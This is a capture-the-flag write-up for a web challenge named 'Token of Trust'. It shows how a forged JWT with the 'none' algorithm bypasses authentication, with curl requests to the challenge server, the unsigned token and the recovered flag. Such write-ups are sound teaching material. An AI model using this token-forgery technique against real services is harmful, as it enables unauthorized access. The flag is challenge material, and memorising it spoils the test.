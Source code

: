 # Token of Trust - CTF Challenge Writeup

## Challenge Information
**Name:** Token of Trust  
**Description:** At first, this web app seems straightforward, but there's something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system's trust can be manipulated. The secret is hidden within the way this token is used. Can you find the key to unlock what's been concealed?  
**Target:** http://34.131.133.224:9999/

## Challenge Overview
This challenge presents a web application that uses token-based authentication for controlling access. At first glance, the application appears to be a standard login system, but there's a security flaw in how it handles and validates authentication tokens.

The challenge hints that the system's "trust can be manipulated," suggesting that the token validation mechanism is vulnerable. Our goal is to exploit this vulnerability to access protected resources and retrieve the hidden flag.

## Solution Walkthrough

### Step 1: Initial Reconnaissance
Upon visiting the main page at http://34.131.133.224:9999/, we see the following message:

```
Welcome to the main page!
To log in, visit /login. But remember, POST requests are my love language. ❤️
PS: Don't forget to set your headers for JSON, or I'll just ignore you. 😉
```

This gives us clear instructions:
- We need to visit the `/login` endpoint
- We should use POST requests
- We need to set appropriate JSON headers

### Step 2: Exploring the Login Endpoint
When accessing the `/login` endpoint, we receive the following response:

```
Oops! Wrong approach.
You can't just walk in here without a proper POST request.
Try sending a JSON payload like this: {"user":"ace","pass":"ctf"}.
Hint: I only care about your request format, not your credentials. 😉
```

This confirms we need to send a POST request with a JSON payload, and interestingly, the hint suggests that the actual credentials don't matter - only the format.

### Step 3: Authentication and JWT Analysis
Next, we send a POST request to the `/login` endpoint with the suggested JSON payload:

```bash
curl -X POST http://34.131.133.224:9999/login \
  -H "Content-Type: application/json" \
  -d '{"user":"ace","pass":"ctf"}'
```

The server responds with a JWT (JSON Web Token). To analyze this token, we use the JWT decoder at https://fusionauth.io/dev-tools/jwt-decoder.

When decoded, we can see the token consists of three parts:
1. **Header**: Contains the token type and signing algorithm (HS256)
   ```json
   {
     "alg": "HS256",
     "typ": "JWT"
   }
   ```
2. **Payload**: Contains the claims
   ```json
   {
     "user": "guest"
   }
   ```
3. **Signature**: Used to verify the token hasn't been tampered with

### Step 4: JWT Manipulation
The key vulnerability here is related to the JWT's algorithm. JWT supports multiple algorithms for signing, including an algorithm called "none" which effectively means "no signature verification."

In a secure implementation, the server should reject tokens with the "none" algorithm. However, many JWT libraries had vulnerabilities where they would accept "none" algorithm tokens, effectively bypassing signature verification.

We modify the JWT by changing the algorithm in the header from "HS256" to "none" and removing the signature part:

Original header:
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Modified header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

Our tampered token now looks like:
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiZ3Vlc3QifQ.
```

### Step 5: Discovering Hidden Endpoints
Now we need to find where to use our manipulated token. A common technique in web application reconnaissance is checking the robots.txt file, which often contains information about restricted areas of a website.

When checking `http://34.131.133.224:9999/robots.txt`, we discover a disallowed endpoint: `/flag`.

### Step 6: Accessing the Protected Resource
With our manipulated JWT and the knowledge of the `/flag` endpoint, we can now try to access this protected resource:

```bash
curl -X POST http://34.131.133.224:9999/flag \
  -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiZ3Vlc3QifQ." \
  -H "Content-Type: application/json"
```

### Step 7: Flag Retrieval
The server accepts our manipulated token with the "none" algorithm and processes our request as if we were authenticated with valid credentials. The server responds with the flag:

```
ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
```
## Flag
`ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}`

